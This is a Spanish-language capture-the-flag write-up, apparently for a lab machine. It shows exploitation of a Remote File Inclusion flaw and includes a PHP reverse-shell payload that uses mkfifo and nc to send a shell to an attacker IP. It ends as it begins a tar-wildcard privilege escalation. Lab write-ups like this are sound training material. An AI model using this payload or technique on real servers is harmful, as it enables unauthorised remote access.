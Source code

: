 ![31]

# Remote File Inclusion
Esta es una vulnerabilidad tanto de Local File Inclusion como de Remote File Inclusion, la que vamos a usar es la última. En esta, la página vulnerable no tiene modo de sanitizar los parámetros de entrada y entonces somos capaces de anexar y visualizar en el navegador (y enviar peticiones al servidor) una página web que esté hosteada por un servidor bajo nuestro control. Es decir, lo que tenemos que hacer es crear un archivo php malicioso que nos permita obtener una reverse shell en el sistema, incluirla en el RFI y entonces el servidor remoto ejecutará las instrucciones regresándonos una consola.

Si abrimos el exploit, veremos las instrucciones y la URL que debemos ingresar para explotar la vulnerabilidad.

![32]

Primero lo probamos para ver si funciona con un archivo de prueba que solo contiene la cadena "**hola**", la hosteamos con un servidor HTTP con Python y lo agregamos a la URL para completar el RFI. Como podemos observar, este logra visualizar el archivo, por lo que es completamente vulnerable.

![33]

Para obtener una reverse shell, creamos un archivo php con el siguiente contenido. Recuerda modificar la IP y puerto de escucha locales:

    <?php echo "<pre>" . shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.14.131 443 >/tmp/f") . "</pre>"; ?>

Lo hosteamos con el servidor HTTP de Python, ponemos una consola en escucha con netcat y accedemos a la URL con el navegador:

![34]

Veremos cómo casi inmediatamente recibimos una conexión, habiendo ganado acceso al sistema:

![35]

Recordemos que cada que obtengamos una shell de Linux por medio de netcat, deberemos hacer un tratamiento de la TTY:

![36]

Ya con una consola estable, listamos la flag de usuario:

![37]

# Escalada de privilegios
Vemos que dentro de el directorio del usuario milesdyson hay una carpeta llamada **backup**, dentro de la cual hay un archivo .tar.gz y un script en bash. Este es un clásico y lo hemos visto en otra máquina de HackTheBox. Se trata de una escalada de privilegios por medio de las wildcards del binario **tar**. Esto lo podemos corroborar abriendo el script y observando que este crea un backup comprimido del directorio /var/www/html con ayuda de tar.
